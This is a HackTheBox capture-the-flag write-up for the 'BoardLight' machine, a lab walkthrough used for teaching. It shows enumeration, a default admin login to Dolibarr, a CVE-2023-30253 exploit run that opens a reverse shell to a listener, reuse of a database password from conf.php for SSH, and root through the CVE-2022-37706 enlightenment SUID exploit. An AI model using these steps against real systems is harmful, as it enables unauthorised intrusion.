 # BoardLight - HackTheBox - Writeup
Linux, 20 Base Points, Easy

![info.JPG](images/info.JPG)

## Machine

![‏‏BoardLight.JPG](images/BoardLight.JPG)
 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Discovered the virtual host `crm.board.htb` running `Dolibarr 17.0.0`, which is vulnerable to `CVE-2023-30253`. Exploit this CVE to obtain a reverse shell as `www-data`. Reuse the database password from `conf.php` for SSH login as `larissa`.

***Root***: Identified an SUID file at `lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`. Use `CVE-2022-37706` to achieve Local Privilege Escalation.

![pwn.JPG](images/pwn.JPG)


## BoardLight Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ nmap -sV -sC -oA nmap/BoardLight 10.10.11.11
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-11 23:20 IDT
Nmap scan report for 10.10.11.11
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:

![port80.JPG](images/port80.JPG)

At the bottom of the page, we can see the domain `board.htb`. By scanning for virtual hosts, we discovered the following:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ gobuster vhost -u http://board.htb/ -w ../subdomains-top1milion.txt -o vho -t 80 --no-error 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://board.htb/
[+] Method:       GET
[+] Threads:      80
[+] Wordlist:     ./subdomains-top1milion.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2024/07/11 23:22:14 Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb (Status: 200) [Size: 6360]

```

By browsing to [http://crm.board.htb/](http://crm.board.htb/), we see the following page:

![crm.JPG](images/crm.JPG)

Using the credentials `admin:admin`, we access the following dashboard:

![dashboard.JPG](images/dashboard.JPG)

We can use the exploit available at [https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) to achieve RCE:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ python3 exp.py  http://crm.board.htb admin admin 10.10.14.14 4242
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

```

This grants us a reverse shell:

```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from board.htb [10.10.11.11] 35672
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$

```

While inspecting the web server, we found the following configuration file:
```console
www-data@boardlight:~/html$ cat ./crm.board.htb/htdocs/conf/conf.php
cat ./crm.board.htb/htdocs/conf/conf.php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

We also found the user `larissa` among the web server users. By reusing the password `serverfun2$2023!!`, we successfully logged in via SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/BoardLight]
└──╼ $ ssh larissa@board.htb 
The authenticity of host 'board.htb (10.10.11.11)' can't be established.
ECDSA key fingerprint is SHA256:cfQmOVNyP7asi/B8DSu3+G5gDhuN37I3cqCQM89psFk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb,10.10.11.11' (ECDSA) to the list of known hosts.
larissa@board.htb's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ cat user.txt 
9e19f2f9310f50d0ff8a715e187abe25

```

And we get the user flag `9e19f2f9310f50d0ff8a715e187abe25`.

### Root

By running `linpeas`, we found the following SUID files:
```console
larissa@boardlight:/tmp$ ./linpeas.sh
...

====================================( Interesting Files )=====================================
[+] SUID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd		--->	Apple_Mac_OSX_10.4.8
/usr/bin/newgrp		--->	HP-UX_10.20
/usr/bin/mount		--->	Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8

```

We discovered the `enlightenment` binaries. We can use the exploit detailed at [CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit) to achieve Local Privilege Escalation by running the script available [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh):
```console
larissa@boardlight:/tmp$ bash ex.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
ef35678000592a8b2a4ad6c95385dd2e
```

And we get the root flag `ef35678000592a8b2a4ad6c95385dd2e`.

```